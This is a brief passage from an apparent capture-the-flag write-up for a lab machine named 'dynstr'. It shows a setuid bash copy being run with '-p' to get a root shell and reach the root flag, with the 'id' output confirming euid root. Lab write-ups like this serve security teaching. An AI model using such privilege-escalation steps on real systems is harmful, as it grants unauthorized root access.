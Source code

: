 We can now simply run it, get dropped in a rootshell and add the root flag to our collection.

```
bindmgr@dynstr:/dev/shm$ /etc/bind/named.bindmgr/bash -p
bash-5.0# id
uid=1001(bindmgr) gid=1001(bindmgr) euid=0(root) egid=117(bind) groups=117(bind),1001(bindmgr)
bash-5.0# wc -c /root/root.txt
33 /root/root.txt
```
